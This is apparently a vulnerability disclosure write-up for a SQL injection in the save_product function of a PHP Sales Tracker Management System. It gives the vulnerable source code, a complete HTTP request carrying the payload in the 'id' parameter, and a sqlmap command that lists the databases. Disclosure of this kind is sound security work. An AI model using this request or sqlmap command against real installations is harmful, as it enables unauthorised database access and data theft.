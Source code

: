 Download sourcecode from https://www.sourcecodester.com/php/16061/sales-tracker-management-system-using-php-free-source-code.html

Deploy the system

The sql injection url: http://127.0.0.1/php-sts/classes/Master.php?f=save_product Vulnerability trigger parameter: id(post parameter)

The http message is 

```
POST /php-sts/classes/Master.php?f=save_product HTTP/1.1
Host: 172.31.171.96
Content-Length: 620
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAbc4qHZLzr0zBDjL
Origin: http://172.31.171.96
Referer: http://172.31.171.96/php-sts/admin/?page=products
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _identity-backend=1416da550bcea012a11350a0ee7d79cf245e88d2bb9d4d2aa1f1074044ab7943a%3A2%3A%7Bi%3A0%3Bs%3A17%3A%22_identity-backend%22%3Bi%3A1%3Bs%3A46%3A%22%5B1%2C%22z6lrwixmdNF4VqtkXw6z-3vMZdSdngm2%22%2C2592000%5D%22%3B%7D; PHPSESSID=qj7s632jgajmvubq5d9g49fnnn
Connection: close

------WebKitFormBoundaryAbc4qHZLzr0zBDjL
Content-Disposition: form-data; name="id"

1 and 1=1
------WebKitFormBoundaryAbc4qHZLzr0zBDjL
Content-Disposition: form-data; name="code"

123
------WebKitFormBoundaryAbc4qHZLzr0zBDjL
Content-Disposition: form-data; name="name"

123
------WebKitFormBoundaryAbc4qHZLzr0zBDjL
Content-Disposition: form-data; name="description"

123
------WebKitFormBoundaryAbc4qHZLzr0zBDjL
Content-Disposition: form-data; name="price"

123
------WebKitFormBoundaryAbc4qHZLzr0zBDjL
Content-Disposition: form-data; name="status"

1
------WebKitFormBoundaryAbc4qHZLzr0zBDjL--

```

sourcecode:

```php
	function save_product(){
		extract($_POST);
		$data = "";
		foreach($_POST as $k =>$v){
			if(!in_array($k,array('id'))){
				if(!empty($data)) $data .=",";
				$v = htmlspecialchars($this->conn->real_escape_string($v));
				$data .= " `{$k}`='{$v}' ";
			}
		}
		$check = $this->conn->query("SELECT * FROM `product_list` where `code` = '{$code}' and delete_flag = 0 ".(!empty($id) ? " and id != {$id} " : "")." ")->num_rows;
		if($this->capture_err())
			return $this->capture_err();
		if($check > 0){
			$resp['status'] = 'failed';
			$resp['msg'] = "Product Code already exists. Code must be unique";
			return json_encode($resp);
			exit;
		}
		if(empty($id)){
			$sql = "INSERT INTO `product_list` set {$data} ";
		}else{
			$sql = "UPDATE `product_list` set {$data} where id = '{$id}' ";
		}
			$save = $this->conn->query($sql);
		if($save){
			$cid = !empty($id) ? $id : $this->conn->insert_id;
			$resp['cid'] = $cid;
			$resp['status'] = 'success';
			if(empty($id))
				$resp['msg'] = "New Product successfully saved.";
			else
				$resp['msg'] = " Product successfully updated.";
		}else{
			$resp['status'] = 'failed';
			$resp['err'] = $this->conn->error."[{$sql}]";
		}
		// if($resp['status'] == 'success')
		// 	$this->settings->set_flashdata('success',$resp['msg']);
			return json_encode($resp);
	}
```

![image-20230310203128004](D:\网安学习\tryCVE\sts-1.assets\image-20230310202421828.png)

sqlmap command: sqlmap -r /mnt/d/web_temp/sqlattack.txt -pid --batch --dbs

![image-20230310202856402](D:\网安学习\tryCVE\sts-1.assets\image-20230310202856402.png)

![image-20230310202937055](D:\网安学习\tryCVE\sts-1.assets\image-20230310202937055.png)